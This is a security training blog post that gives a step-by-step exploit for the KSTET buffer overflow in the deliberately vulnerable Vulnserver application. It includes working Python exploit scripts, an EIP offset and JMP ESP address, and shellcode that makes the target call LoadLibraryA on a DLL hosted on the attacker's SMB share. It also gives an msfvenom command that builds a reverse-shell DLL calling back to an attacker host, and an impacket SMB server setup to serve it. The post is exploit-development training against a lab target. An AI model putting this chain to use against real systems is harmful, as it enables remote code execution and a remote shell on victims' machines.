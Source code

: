 :slug: vulnserver-kstet-alternative/
:date: 2020-07-02
:category: attacks
:subtitle: Sideloading exploiting
:tags: osce, vulnserver, training, exploit
:image: cover.png
:alt: Photo by Philipp Katzenberger on Unsplash
:description: This post will show how to exploit the Vulnserver KSTET command loading the payload from an external source.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/iIJrUoeRoCQ

= KSTET: DLL Side-Loading Exploit

This is an alternate take of the article of exploiting the
link:../vulnserver-kstet/[KSTET] command  of `Vulnserver`, a VbD
(Vulnerable-by-Design) application in which you can practice Windows
exploit development.

The `KSTET` exploitation is really interesting because after controlling
the instruction pointer `EIP`, we are left with little space to work on.

With that kind of restrictions, we must be very creative in order to achieve
a working exploit that triggers something complex like a reverse shell.
For example, we also had space restrictions
in the exploitation of the `GTER` command,
and we used an link:../vulnserver-gter/[Egghunter] and
link:../vulnserver-gter-no-egghunter/[reused part of the WinSock stack]
to create a custom reverse shellcode.

In the `KSTET` command article,
we used a technique called link:../vulnserver-kstet/[socket reusing].
In this post we will squeeze our space restriction a little more and use a
different exploitation technique.

I will shamelessly leave part of the article for the `KSTET` exploitation
and only divert it when needed.

`KSTET` take 2!

== Fingerprinting KSTET

Enumerating and fingerprinting is the most important step when verifying
the security of any target.

Let's check how the `KSTET` command behaves:

[source,console]
----
$ telnet 192.168.0.20 9999
Trying 192.168.0.20...
Connected to 192.168.0.20.
Escape character is '^]'.
Welcome to Vulnerable Server! Enter HELP for help.
KSTET hello
KSTET SUCCESSFUL
----

Well, easy enough. Now we are going to do the same but we will check it
under our debugger. I will use Immunity Debugger.

The first step is to identify where the `KSTET` command is processed.

We can do that by right-clicking,
then `Search for -> All referenced text strings`, right-click again, then
`Search for text` and type `KSTET`. Make sure that `Entire scope` is selected.
Now, select the match on where `KSTET` string is presented and set a
breakpoint:

image::debug1.gif[Debugging KSTET]

With that in place, we can start our connection to `Vulnserver` again
and see what happens under the hood:

image::debug2.gif[Debugging KSTET]

As you can see, several things are happening:

. Our breakpoint was reached when we typed `KSTET hello`.
. Several external functions are called,
including `strncpy`, `malloc` and `memset`.
. There is one function that stands out: `strcpy`,
which will copy anything that is on one buffer to another,
without checking buffer boundaries.

Let's see what happens when we issue something larger than a `hello` to the
`KSTET` command:

image::crash1.gif[Crash]

Uggh! With a very short string, Vulnserver crashed, and we overwrote `EIP`,
which means that we can control the execution flow of the application.

With that, we can start creating our proof-of-concept exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 200
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::poc1.gif[Crash]

That's good news. However, the injected string was really short,
and maybe we'd have a narrow buffer space to work on.

== Checking available buffer space

If we check the state of the application after the crash, we will see this:

image::space1.png[Buffer space]

In the dump window (bottom left), we see our injected buffer. In the PoC,
we sent 200 `A` chars, but as you can see here, the total amount of injected
bytes, including the word `KSTET` itself, is only 0x63 or 99 bytes.

In the `GTER` command exploitation, we had 140+ bytes to work on,
and we used two techniques:
link:../vulnserver-gter-no-egghunter/[WinSocket stack reusing] and
an link:../vulnserver-gter/[egghunter].

The first one is not viable because although we reduced the shellcode length to
the half, the resultant shellcode was 128 bytes.

We could use an `egghunter` here, but that wouldn't be much fun.
Why make it easy if we can do it the hard way?

OK, let's start by checking the offset of the crash by creating a cyclic
pattern of 100 characters using `pattern_create.rb` tool from Metasploit:

[source,console]
----
$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
----

And update our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'<paste pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::offset1.gif[Cyclic pattern]

As you can see, `EIP` was overwritten with `63413363`. We can check the
offset of that bytes on our cyclic pattern to get the offset on where `EIP`
gets overwritten:

[source,console]
----
$ msf-pattern_offset -q 63413363
[*] Exact match at offset 70
----

Now, check that offset by updating our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    b'B' * 4 +
    b'C' * 26
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And run it:

image::offset2.gif[Cyclic pattern]

Wonderful! We know exactly how to overwrite `EIP` to get control over the
execution flow.

== Exploiting

As with the link:../vulnserver-trun/[TRUN] and link:../vulnserver-gter/[GTER]
commands, we have a direct `EIP` overwrite here, and the `ESP` register
points directly to our controlled buffer. That means that we can look for
a `JMP ESP` instruction and overwrite `EIP` with its address to take
control of the execution flow. We can do that using `mona.py` plugin:

[source,console]
----
!mona jmp -r esp -cp nonull -o
----

This would tell `mona` to look for instructions that can be used to jump to
`ESP` (`jmp -r esp`), excluding pointers with null bytes (`-cp nonull`) and
omitting OS DLLs (`-o`). The result is the following:

image::mona1.png[JMP ESP]

We can choose any of those 9 pointers. I'll choose the one at `625011BB`.

Now, we can update the exploit with that address:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    b'C' * 26
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::jmp1.gif[JMP ESP]

Great! However, as you can see, we landed on a 20 bytes buffer where we
put the `C` chars, but we have 66 bytes above on the buffer of the `A` chars.

With a short jump backward, we can easily jump to that place:

image::jmp2.gif[JMP backwards]

The resultant bytes were `EB B5`. We can update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::jmp3.gif[JMP backwards]

But again, we were brutally reminded that we have a narrow buffer space
to work on.

To work around that constraint, we will use this time a sideloading technique
for injecting the needed payload from an adjacent computer.

== Dynamic linking

Commonly, when creating an exploit, you inject the required payload and
modify the instruction pointer `EIP` to point to your code. Then, the
victim application will execute the code you injected,
which can be a simple `MessageBox` or anything complex like a `TCP` shell.

That payload, or shellcode, can only use calls to the OS API of modules
that the victim application has already loaded in memory.

The OS API is distributed on reusable files that can be linked to any
application. In Windows, they are known as *Dynamic-Link Library* or `DLL`
files. Commonly, an application will load executable dependencies at
run-time using the OS dynamic linker.

We can see the `DLL` files loaded using several ways. On Vulnserver,
we will use our debugger again:

image::modules1.png[Executable modules]

That means that Vulnserver (and therefore, our shellcode) can execute any
function included on any of those modules.

However, there is a way for an application to include new libraries when it's
already running: *Dynamic Linking*. On Windows, it can be done with any of the
*LibraryLoad* functions family. Those functions are located on `KERNEL32.DLL`,
which is the module that exposes most of the Win32 base API;
therefore, virtually any Windows application has it loaded at run-time.

As the injected shellcode is also part of the application,
we can dynamically link any available `DLL`.

With that ultra-simplified introduction to dynamic linking, it's time to write
some Assembler!

== Dynamic-included payload

The first thing to do is to locate the address of `LoadLibraryA` on our system.
We can do that using the
link:http://www.vividmachines.com/shellcode/arwin.c[arwin] tool:

[source,console]
----
C:\Users\Fluid\Downloads\osce\tools>arwin.exe kernel32 LoadLibraryA
arwin - win32 address resolution program - by steve hanna - v.01
LoadLibraryA is located at 0x76460b30 in kernel32
----

*NOTE:* I'm using `Windows 10 Pro 20H2` at the moment of this writing. As
`ASLR` is enabled by default, the `LoadLibraryA` address will change on
every reboot.

We also need to know the `LoadLibraryA` parameters:

.Taken from https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya
[source,cpp]
----
HMODULE LoadLibraryA(
  LPCSTR lpLibFileName
);
----

Easy! The `lpLibFileName` is a string with the location of the `DLL` file to
be included. To our advantage, the location can be a Universal Naming
Convention (`UNC`) path in the form `\\server\share\file.dll`.

In Windows, that path would be resolved using the `SMB` protocol. That means
that we must expose that file using an `SMB` server, but we will get to that
later. For now, we can predict that the `UNC` path of our payload will
be at `\\attacker_ip\share\shell.dll`; in my case, it would be
`\\192.168.0.18\X\pwn.dll`.

To call `LoadLibraryA` on an `x86` architecture, we must push into the stack
the `lpLibFileName` value, which is a pointer to the
`\\192.168.0.18\X\pwn.dll` string. As `x86` is a 32 bits architecture, we
must push exactly 4 bytes each time into the stack, and as we are pushing data
into the stack, it must be in reverse order. So, we need to convert
`\\192.168.0.18\X\pwn.dll` to hex, split it in chunks of 4 bytes, pad as
needed and reverse. This can be done with:

[source,console]
----
$ for i in $(echo -ne '\\\\192.168.0.18\\X\\pwn.dll' | xxd -ps | tr -d '\n' | fold -w 8); do python3 -c "import struct;print(struct.pack('<L', 0x$i).hex())"; done | tac | sed 's/^/push 0x/g'
push 0x6c6c642e
push 0x6e77705c
push 0x585c3831
push 0x2e302e38
push 0x36312e32
push 0x39315c5c
----

With the required information, we can now write the call to `LoadLibraryA`:

[source,x86asm]
----
sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
                        ; overwriting our shellcode
xor ebx,ebx             ; Zero out EBX that will be the NULL byte terminating
                        ; the UNC path
push ebx                ; PUSH NULL byte
push 0x6c6c642e         ; \\192.168.0.18\X\pwn.dll reversed
push 0x6e77705c
push 0x585c3831
push 0x2e302e38
push 0x36312e32
push 0x39315c5c
push esp                ; Push pointer of the UNC path
mov ebx,0x76460b30      ; Move into EBX the address of 'LoadLibraryA'
call ebx                ; call 'LoadLibraryA("\\192.168.0.18\X\pwn.dll")'
----

We can compile that using `nasm`:

[source,console]
----
$ nasm -f elf32 -o shellcode.o shellcode.asm
----

And obtain the shellcode using this:

[source,bash]
----
$ for i in $(objdump -d shellcode.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x83\xec\x64\x31\xdb\x53\x68\x2e\x64\x6c\x6c\x68\x6c\x6c\x30\x30\x68\x5c
\x73\x68\x65\x68\x31\x38\x5c\x73\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36
\x68\x5c\x5c\x31\x39\xbb\x30\x0b\x46\x76\xff\xd3
----

Let's update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

LOAD_LIBRARY = (
    b'\x83\xec\x64\x31\xdb\x53\x68\x2e\x64\x6c\x6c\x68\x5c\x70\x77\x6e'
    b'\x68\x31\x38\x5c\x58\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36\x68'
    b'\x5c\x5c\x31\x39\x54\xbb\x30\x0b\x46\x76\xff\xd3'
)

PAYLOAD = (
    b'KSTET ' +
    b'\x90' * 2 +
    LOAD_LIBRARY +
    b'A' * (70 - len(LOAD_LIBRARY) - 2) +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::loadlib1.gif[LoadLibrary]

Great! The `LoadLibraryA` function is now ready.

== Show time

Now that we have everything set, we must now create a shellcode on a
`DLL` file and share it on an `SMB` server.

Luckily for us, `msfvenom` can create shellcodes in `DLL` format. Let's do
that:

[source,console]
----
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=none -f dll -o pwn.dll
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
Saved as: pwn.dll
----

We also must serve that `pwn.dll` file on an `SMB` share called `X`.
We can use Impacket's `smbserver.py` to do that:

[source,console]
----
$ sudo impacket-smbserver -smb2support X .
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
----
This will create a new anonymous `SMB` server, will share the current
directory `.`, using a share called `X`. The `-smb2support` parameter is
needed because Windows 10 will refuse to connect to `SMB` servers using
the `SMBv1` protocol.

We are now ready. We can check our exploit:

image::success.gif[Success]

Yes! We got a shell! You can see how the victim is self-hacking by retrieving
the payload from our attacking machine!

You can also see that `pwn.dll` is now part of the `vulnserver.exe`
executable modules:

image::modules2.png[Executable modules]

Crazy, huh? You can download the final exploit link:exploit.py[here].

== Conclusion

This was a very fun way of exploiting Vulnserver. Remember that this
technique only works if the attacking machine is adjacent to the victim
machine and there are no network restrictions between them.
